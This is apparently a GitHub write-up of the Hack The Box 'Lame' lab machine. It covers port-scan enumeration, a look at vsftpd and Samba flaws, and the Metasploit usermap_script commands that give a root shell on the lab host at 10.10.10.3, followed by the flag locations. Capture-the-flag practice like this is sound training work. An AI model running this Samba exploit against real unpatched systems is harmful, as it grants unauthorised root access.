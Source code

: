 ## Lame Walkthrough

This is a walkthrough for the first easy machine in Hack the Box - Lame. This is a very simple machine to root and is good practice for anyone wanting to get into HTB.

![image](https://user-images.githubusercontent.com/126024971/220775916-dfa41877-1289-4cfd-88ae-8b4d14436e26.png)

---

### Enumeration
IP Address: 10.10.10.3

The first thing that I did was run an Nmap scan on the target. I got four open ports back, and we can also tell that this is a Linux machine:

![Screenshot from 2023-02-22 15-41-43](https://user-images.githubusercontent.com/126024971/220765714-b6a07831-ee73-466c-9b25-9e97a7610009.png)

After this I did research on potential vulnerabilities based on the running services.

`Port 21: vsftpd 2.3.4` This is running on port 21 as an FTP server. It has a module in metasploit, but it says that the backdoor was removed. This might still be worth checking out.

https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/

`Port 22: OpenSSH 4.7p1` I was not able to find any exploits for this version of OpenSHH that I thought would be successful.

`Port 139: Samba smbd 3.X - 4.X` & `Port 445: Samba smbd 3.0.20` These services go hand-in-hand as they are running Samba. Samba 3.0.20 has a vulnerability assoicated with it that should give a remote shell with root access.

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

---

### Exploitation

`vsftp 2.3.4` The exploit for vsftp does not work (The HTB Offical walkthrough confirms this). While it does not work for this instance, it is a good exploit to keep in mind for the future if this version of vsftp comes up again.

`Port 139: Samba smbd 3.X - 4.X` & `Port 445: Samba smbd 3.0.20` This is how HTB wants you to root this machine. There is a metasploit module for this version of Samba that will give us a shell with root access. Here are the commands to run the exploit (They are also included in the rapid7 link):

NOTE: It is important for you to get your LHOST when you are running these metasploit modules. If you do not set the LHOST to the IP address that your HTB VPN is using, metasploit will default to your main IP address and you will not be able to connect to the target.

`mfsconsole`

`use exploit/multi/samba/usermap_script`

`show options`

`Set LHOST YOUR-HTB-VPN-IP`

`set RHOSTS 10.10.10.3`

`run`

After this, we have root access to the machine!
![Selection_002](https://user-images.githubusercontent.com/126024971/220772612-67f33199-7eb0-479e-a780-704c6c946a9e.png)

---

### Getting the Flags

Since we already have root access to the machine, we do not need to escalate privileges. All that is needed is to find where the user and root flags are located. I found the user flag in /home/makis/user.txt. If this is your first flag in HTB, you will need to use the `cat` command to list the contents of the txt file. After showing the flag, copy and paste it into the HTB site for the user flag.

![image](https://user-images.githubusercontent.com/126024971/220773457-3290e887-6ebd-44c0-823b-00c4942246eb.png)

The root flag is found under /root/root.txt

